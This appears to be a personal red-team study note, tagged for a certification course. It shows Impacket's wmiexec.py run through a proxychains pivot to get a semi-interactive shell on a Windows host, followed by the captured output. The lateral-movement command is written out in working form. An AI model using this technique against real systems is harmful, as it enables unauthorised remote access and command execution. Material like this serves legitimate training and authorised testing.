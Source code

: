 You can run tools over the proxy pivot to connect to Windows boxes like WMI:

```
ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
[*] SMBv3.0 dialect used
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:135-<><>-OK
|S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:49667-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
```

### ⚠ Opsec




### Properties
---
📆 created   {{17-02-2024}} 18:20
🏷️ tags: #redteam #crto 

---

